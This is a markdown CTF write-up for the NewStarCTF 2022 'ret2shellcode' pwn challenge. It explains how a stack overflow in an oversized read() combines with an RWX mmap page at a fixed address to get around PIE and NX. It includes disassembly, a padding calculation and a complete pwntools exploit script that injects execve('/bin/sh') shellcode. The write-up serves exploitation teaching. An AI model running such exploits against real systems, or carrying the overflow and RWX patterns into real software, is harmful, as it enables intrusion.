




<div align="center">

# 💉 ret2shellcode

### Pwn Writeup · NewStarCTF 2022 Open Competition Track · Shellcode Injection into an RWX `mmap()` Page


*PIE is on, NX is on, no backdoor exists anywhere — so the binary builds us a loophole and hands us the key.*

</div>

---

## 📌 TL;DR

`checksec` shows PIE enabled, NX enabled, full RELRO, no canary. There is no "free" backdoor function this time (`nm` shows only `main`/`init`, and `strings` has no `/bin/sh`). Instead, `main` calls `mmap()` to create a brand-new **RWX** (read-write-execute) memory region at a **hardcoded, PIE-independent address** (`0x233000`), reads our data into it, then overflows a second, unbounded stack buffer we can use to redirect the saved return address straight into that region. We write our own shellcode into the RWX page via the first `read`, then point the overflowed return address at it via the second `read`.

```python
shellcode = asm(shellcraft.sh())
# read #1 -> shellcode into the RWX mmap'd page at 0x233000
# read #2 -> 56 bytes padding + p64(0x233000) overwrites the saved RA
```

| | |
|---|---|
| **Binary** | `pwn` — ELF 64-bit, dynamically linked, **PIE enabled** |
| **Bug** | `read(0, buf, 0x100)` into a 48-byte (`0x30`) stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **on** · Full RELRO |
| **Missing ingredients** | No backdoor function, no `/bin/sh` string anywhere |
| **The loophole** | `mmap(0x233000, ...)` — an RWX page at a hardcoded address, immune to PIE |
| **Primitive** | `ret2shellcode`: write our own shellcode into the RWX page, then redirect `ret` into it |
| **Padding** | 56 bytes to the saved return address |
| **Result** | Shell |

---

## 🗺️ Table of Contents

1. [Recon](#1--recon)
2. [Disassembly Walkthrough](#2--disassembly-walkthrough)
3. [Reconstructed C](#3--reconstructed-c)
4. [The Vulnerability, Precisely](#4--the-vulnerability-precisely)
5. [Exploit Development](#5--exploit-development)
6. [A Gotcha: SSL on the Remote Connection](#6--a-gotcha-ssl-on-the-remote-connection)
7. [Final Exploit Script](#7--final-exploit-script)
8. [Self-check Quiz](#8--self-check-quiz)
9. [Checklist](#9--checklist--concepts-exercised-in-this-challenge)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Recon

### 1.1 `checksec`

```
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
```

| Protection | Value | What it means for us |
|---|---|---|
| Canary | None | Straight overflow into the saved return address, no leak needed first. |
| NX | Enabled | The stack itself is not executable — can't just drop shellcode on the stack and jump to it directly. |
| PIE | **Enabled** | The binary's own base address (and therefore every symbol inside it, including `main`) is randomized on every run. Addresses we read from `objdump` for `.text`/`.data`/`.bss` are **not** directly usable without a leak — *unless* something inside the program gives us an address independent of the binary's load base (see mmap, below). |
| RELRO | Full | Irrelevant here, we're not touching the GOT. |

PIE being on is the headline difference from the previous challenge. It means our usual "just hardcode the address from `objdump`" trick for anything inside `main`-style functions is off the table — *unless* the target address comes from somewhere that bypasses PIE entirely.

### 1.2 Hunting for a backdoor — `nm -C ./pwn | grep " T "`

```
000000000000083b T main
00000000000007da T init
...
```

No suspicious extra function this time — just the compiler-generated scaffolding and `main`. No `backdooOo0r`-equivalent exists.

### 1.3 Checking for a ready-made string — `strings`

```
strings -t x ./pwn | grep bin/sh     # <- no output at all
```

Confirms there's no hardcoded `/bin/sh` string either. Both of the usual "free win" ingredients (a backdoor function, a ready string) are absent — this challenge wants us to build and deliver our own exploit code instead of reusing something the binary already has.

---

## 2. 🧩 Disassembly Walkthrough

### 2.1 `main` — the `mmap` call

```asm
000000000000083b <main>:
 83b: push   rbp
 83c: mov    rsp, rbp
 83f: sub    0x30, rsp            ; reserve 0x30 (48) bytes of locals
 84d: movq   $0x0, -0x8(rbp)      ; local var at rbp-0x8, zero-initialized (will hold mmap's return value)

 855: mov    r9d, 0x0             ; arg6: offset   = 0
 85b: mov    r8d, 0xffffffff      ; arg5: fd       = -1
 861: mov    ecx, 0x22            ; arg4: flags    = 0x22
 866: mov    edx, 0x7             ; arg3: prot     = 0x7
 86b: mov    esi, 0x1000          ; arg2: length   = 0x1000
 870: mov    edi, 0x233000        ; arg1: addr     = 0x233000
 875: call   mmap@plt             ; mmap(0x233000, 0x1000, PROT_RWX, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)
 87a: mov    rax, [rbp-0x8]       ; save returned pointer
```

**Reading the System V calling convention for `mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset)`** (args in `rdi, rsi, rdx, rcx, r8, r9`):

| Reg | Value | Argument | Meaning |
|---|---|---|---|
| `rdi` | `0x233000` | `addr` | A hint address to map at — see analysis below. |
| `rsi` | `0x1000` | `length` | One page (4096 bytes). |
| `rdx` | `0x7` | `prot` | `PROT_READ(1) \| PROT_WRITE(2) \| PROT_EXEC(4)` = **RWX**. |
| `rcx` | `0x22` | `flags` | `MAP_PRIVATE(0x2) \| MAP_ANONYMOUS(0x20)` — a fresh, zero-filled region, not backed by any file. |
| `r8` | `-1` | `fd` | No file descriptor (required/conventional for anonymous mappings). |
| `r9` | `0x0` | `offset` | Irrelevant for anonymous mappings. |

### Why hardcode `addr = 0x233000` on a PIE binary?



PIE randomizes only the base address the *binary itself* (`.text`, `.data`, `.bss`, etc.) is loaded at. It has **no effect** on where an explicit `mmap()` call places its new mapping, because `mmap` is an independent kernel request, unrelated to the binary's load base. By hardcoding `0x233000` as the requested address, the challenge author created a memory region whose address is **identical on every single run**, completely sidestepping PIE. Since `flags` doesn't include `MAP_FIXED` (`0x10`), this is technically just a *hint* to the kernel — the kernel is free to place the mapping elsewhere if `0x233000` is already occupied — but because that address sits very low in the address space and nothing else typically lives there, the kernel accepts the hint essentially every time in practice.

The region is RWX, meaning it is simultaneously writable (so we can copy shellcode into it via `read`) and executable (so the CPU will happily run whatever bytes land there) — this is exactly what NX normally forbids on the stack, deliberately provided here as the "shellcode landing pad."

### 2.2 `main` — the two `read` calls

```asm
 88a: mov    rax, [rbp-0x8]       ; rax = mmap'd pointer (0x233000)
 88e: mov    edx, 0x100           ; count = 256
 893: mov    rsi, rax             ; buf   = mmap'd pointer
 896: mov    edi, 0x0             ; fd    = 0 (stdin)
 89b: call   read@plt             ; read(0, 0x233000, 0x100)   <- READ #1: into the RWX page

 8ac: lea    rax, [rbp-0x30]      ; rax = address of local buffer
 8b0: mov    edx, 0x100           ; count = 256
 8b5: mov    rsi, rax             ; buf   = local buffer
 8b8: mov    edi, 0x0             ; fd    = 0 (stdin)
 8bd: call   read@plt             ; read(0, rbp-0x30, 0x100)   <- READ #2: into the vulnerable stack buffer
```

**Read #1** writes up to 256 bytes directly into the RWX page at `0x233000`. This is our shellcode delivery mechanism.

**Read #2** writes up to 256 bytes into a local buffer that starts at `rbp-0x30` (48 bytes below `rbp`) — but the buffer itself is only declared with 0x30 bytes of stack space (see `sub rsp, 0x30`). Reading up to `0x100` (256) bytes into a 48-byte buffer is a textbook unbounded overflow: CWE-121 again, same root cause as the previous challenge (fixed-size buffer, oversized read/scanf), just with `read()` instead of `scanf()` this time.

---

## 3. 🧱 Reconstructed C

```c
#include <stdio.h>
#include <sys/mman.h>
#include <unistd.h>

int main(void) {
    void *shellcode_page;
    char  buf[0x30];                 // rbp-0x30, but read() allows 0x100 bytes!

    shellcode_page = mmap((void *)0x233000, 0x1000,
                           PROT_READ | PROT_WRITE | PROT_EXEC,
                           MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    puts("Hello my friend.Any gift for me?");
    read(0, shellcode_page, 0x100);  // <- our shellcode lands here

    puts("Anything else?");
    read(0, buf, 0x100);             // <- THE BUG: overflows buf (only 0x30 bytes)

    puts("Ok.See you!");
    return 0;
}
```

---

## 4. 🐛 The Vulnerability, Precisely

- `buf` is a 48-byte (`0x30`) local stack buffer.
- The second `read(0, buf, 0x100)` accepts up to 256 bytes with **no bound matching the buffer's actual size** — the size argument passed to `read` (`0x100`) is simply wrong/oversized relative to the declared buffer (`0x30`).
- No canary means the overflow reaches the saved return address undetected.
- Separately, the binary voluntarily creates an **RWX memory region at a fixed, PIE-independent address** and lets us fill it with arbitrary bytes via the first `read` — effectively handing us a reliable place to stage shellcode and a reliable address to jump to, without needing any information leak despite PIE being enabled.

---

## 5. 🛠️ Exploit Development

### 5.1 Computing the padding



`buf` starts at `rbp-0x30`. With a frame pointer present (`push rbp; mov rbp, rsp`), the same formula as always applies:

```
padding = offset_to_rbp + 8
        = 0x30 + 8
        = 48 + 8 = 56 bytes
```

### 5.2 The two-stage write



1. **First `read`**: send our shellcode. It lands at the fixed address `0x233000` (the RWX page). Any bytes we send beyond the shellcode's own length just sit there as leftover data in the page and are never reached/executed, since the CPU starts executing at the very first byte we jump to and our shellcode's own instructions don't fall through into them.
2. **Second `read`**: send `56 bytes of padding + p64(0x233000)`. This overflows `buf`, overwrites the saved return address with `0x233000`, and leaves the rest of the stack frame untouched.

When `main` executes `leave; ret`, control transfers to `0x233000` — exactly where our shellcode sits — and because that page is executable, the CPU runs it without faulting.

### 5.3 Building the shellcode with pwntools

Rather than hand-writing assembly, pwntools ships `shellcraft`, a library of ready-made, tested shellcode templates for common tasks (spawn a shell, bind/reverse shell, read a file, etc.) across multiple architectures.

```python
shellcode = asm(shellcraft.sh())
```

- `shellcraft.sh()` returns the **assembly source** (as text) for code equivalent to `execve("/bin/sh", NULL, NULL)` — functionally the same thing the previous challenge's `backdooOo0r` did, but built here from a raw `syscall` instruction instead of calling into libc's `execve()` wrapper, since we have no guarantee libc is reachable/linked the way we need from a freshly mmap'd page.
- `asm(...)` assembles that source into raw machine-code **bytes**, ready to be sent over the wire.

### 5.4 `recvuntil` — why it's needed

The program prints two separate prompts before each `read` call (`"...gift for me?"` and `"Anything else?"`). Blindly sending both payloads back-to-back without waiting for these prompts risks a race condition where pwntools might send data before the server's `read()` call is even listening, or interleave reads/writes unpredictably on a slow connection. Using:

```python
p.recvuntil(b'?')
p.sendline(shellcode)
p.recvuntil(b'?')
p.sendline(payload)
```

guarantees each payload is sent only after we've confirmed the program has reached the matching `read()` call (its preceding `puts()` already executed, which only happens right before that `read`).

---

## 6. 🔒 A Gotcha: SSL on the Remote Connection

Connecting to the remote CTF instance with a plain `remote(host, port)` produced an immediate `EOFError` — the TCP connection opened, but the server closed it right away. This CTF platform wraps its remote instances in TLS, so the server expects a TLS handshake before any application data; without it, the server has nothing to interpret and drops the connection. The fix, as with the previous challenge, is:

```python
p = remote(host, port, ssl=True, sni=host)
```

`sni=host` (Server Name Indication) matters because these CTF hosts typically sit behind infrastructure that serves multiple backends off a single IP/port — the TLS layer itself needs to know *which* hostname you're trying to reach before the TCP handshake even gets to the application layer, since that routing decision happens during the TLS handshake, before any HTTP-like request could otherwise specify it.

---

## 7. 🚀 Final Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
import sys

context.arch = 'amd64'
context.log_level = 'info'

MMAP_ADDR = 0x233000

if len(sys.argv) > 1:
    host, port = sys.argv[1].split(':')
    p = remote(host, int(port), ssl=True, sni=host)
else:
    p = process('./pwn')

shellcode = asm(shellcraft.sh())

# Stage 1: deliver shellcode into the RWX mmap'd page
p.recvuntil(b'?')
p.sendline(shellcode)

# Stage 2: overflow the stack buffer, redirect return address to the shellcode
PADDING = b"A" * 56
payload = PADDING + p64(MMAP_ADDR)

p.recvuntil(b'?')
p.sendline(payload)

p.interactive()
```

Usage:

```bash
python3 exploit.py                                      # local
python3 exploit.py host.example.com:9999                # remote (host:port)
```

Result: interactive shell. ✅

---

## 8. 🧩 Self-check Quiz

1. **Why does PIE being enabled NOT protect the `mmap`'d region's address from being predictable?**
   <details><summary>Answer</summary>
   PIE only randomizes the base address the binary's own segments (<code>.text</code>, <code>.data</code>, <code>.bss</code>, etc.) are loaded at. <code>mmap()</code> is a separate kernel request with its own explicit address argument, completely decoupled from the binary's load base. Hardcoding that address in the <code>mmap()</code> call therefore produces an address that is identical on every run, regardless of PIE.
   </details>

2. **`prot = 0x7` was passed to `mmap`. What does each bit mean, and why is this combination dangerous from a security standpoint?**
   <details><summary>Answer</summary>
   <code>0x7 = PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)</code>, i.e. RWX. A region that is simultaneously writable and executable means anything written there (including by an attacker-controlled <code>read()</code>) can immediately be executed — this is exactly the property NX is designed to prevent elsewhere (like the stack), making an RWX mapping a deliberate, convenient target for shellcode injection.
   </details>

3. **`flags = 0x22` (no `MAP_FIXED`). What does that imply about whether the kernel is guaranteed to honor the requested address?**
   <details><summary>Answer</summary>
   Without <code>MAP_FIXED</code> (<code>0x10</code>), the requested address is only a hint — if that address range is already occupied, the kernel is free to place the mapping elsewhere instead of failing or overwriting. In practice, low fixed addresses like <code>0x233000</code> are rarely occupied by anything else, so the kernel honors the hint almost every time, making the technique reliable without needing <code>MAP_FIXED</code>.
   </details>

4. **Why is the padding formula `0x30 + 8` here, not simply `0x30`?**
   <details><summary>Answer</summary>
   Because a frame pointer exists (<code>push rbp; mov rbp, rsp</code>), the 8 bytes immediately above the buffer (from <code>rbp</code> up to <code>rbp+8</code>) are the saved caller's <code>rbp</code>, not yet the return address. Only after those 8 bytes do we reach the saved return address at <code>rbp+8</code>. This is the same general formula (<code>offset_to_rbp + 8</code>) used in every frame-pointer-based overflow so far.
   </details>

5. **What's the functional difference between what `shellcraft.sh()` builds here versus what `backdooOo0r` did in the previous challenge?**
   <details><summary>Answer</summary>
   Functionally they're equivalent — both end up running <code>execve("/bin/sh", NULL, NULL)</code>. The difference is mechanism: <code>backdooOo0r</code> called the libc <code>execve()</code> wrapper via the PLT (relying on the binary being linked against libc and that symbol being resolvable). <code>shellcraft.sh()</code>'s shellcode instead issues a raw <code>syscall</code> instruction directly, with the syscall number and arguments loaded into registers by hand — it needs no libc, no PLT, no symbol resolution at all, which is necessary here since our shellcode lives in a freshly mmap'd page with none of that infrastructure around it.
   </details>

6. **Why was `recvuntil(b'?')` necessary before each `sendline`, when the previous challenge's exploit didn't need it?**
   <details><summary>Answer</summary>
   This challenge has <strong>two</strong> separate reads, each preceded by its own prompt. Waiting for each prompt (<code>recvuntil</code>) before sending the matching payload ensures each <code>sendline</code> lands exactly when the program is actually blocked on the corresponding <code>read()</code> call, avoiding any timing ambiguity about which data goes to which read. The previous challenge only had a single <code>scanf</code> call, so there was only one input point and no ordering ambiguity to resolve.
   </details>

7. **What's the general decision rule for choosing between `ret2win`/`ret2text`, `ret2shellcode`, and `ret2libc`/ROP?**
   <details><summary>Answer</summary>
   Check, in order: (1) Is there a ready-made function in the binary that already does what we want (via <code>nm</code>/<code>strings</code>)? If yes → <code>ret2win</code>/<code>ret2text</code>, no shellcode needed. (2) If not, is there any memory region that is both writable and executable (NX off on the stack, or an RWX region like an <code>mmap</code>'d page)? If yes → build and inject our own shellcode there (<code>ret2shellcode</code>). (3) If neither applies (NX fully enforced, no writable+executable region anywhere) → fall back to reusing existing code fragments already marked executable (gadgets in <code>.text</code>/libc), chained together — <code>ROP</code>/<code>ret2libc</code>.
   </details>

8. **Why did the remote connection fail with a plain `remote(host, port)` but succeed with `ssl=True, sni=host`?**
   <details><summary>Answer</summary>
   The CTF platform's remote instances require a TLS handshake before accepting any application data; a plain TCP connection gets accepted at the socket level but the server has nothing it can interpret without TLS, so it closes the connection, producing an immediate EOFError. <code>sni=host</code> (Server Name Indication) is needed on top of <code>ssl=True</code> because the server infrastructure likely multiplexes several backend services behind one IP/port, and SNI is how the TLS layer itself learns which hostname's certificate/backend to use, decided during the handshake itself.
   </details>

---

## 9. ✅ Checklist — Concepts Exercised in This Challenge

- [x] Reading `checksec` and recognizing PIE as the key new variable versus the previous challenge
- [x] Confirming the absence of a ready backdoor function/string via `nm` and `strings` before assuming one exists
- [x] Decoding a raw syscall-style function call (`mmap`) from register writes using the System V calling convention
- [x] Understanding that PIE randomizes only the binary's own load base, not explicit `mmap()` addresses
- [x] Recognizing `PROT_READ|WRITE|EXEC` (`0x7`) as an RWX region and why that's a deliberate shellcode landing pad
- [x] Understanding `MAP_FIXED` vs. a plain address "hint" to the kernel
- [x] Spotting an oversized `read()` count relative to a fixed-size stack buffer as the overflow primitive
- [x] Reapplying the frame-pointer padding formula (`offset_to_rbp + 8`) in a new context
- [x] Building shellcode with `pwntools`' `shellcraft` + `asm()` instead of hand-writing raw bytes
- [x] Understanding why `shellcraft.sh()`'s raw-syscall approach is necessary here (no libc dependency)
- [x] Synchronizing a two-stage exploit (`recvuntil` before each `sendline`) when a program has multiple sequential input points
- [x] Diagnosing a remote-connection EOFError as a missing TLS handshake and fixing it with `ssl=True, sni=host`
- [x] A general decision framework for choosing `ret2win/ret2text` vs. `ret2shellcode` vs. `ret2libc`/ROP based on what the binary offers

---

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
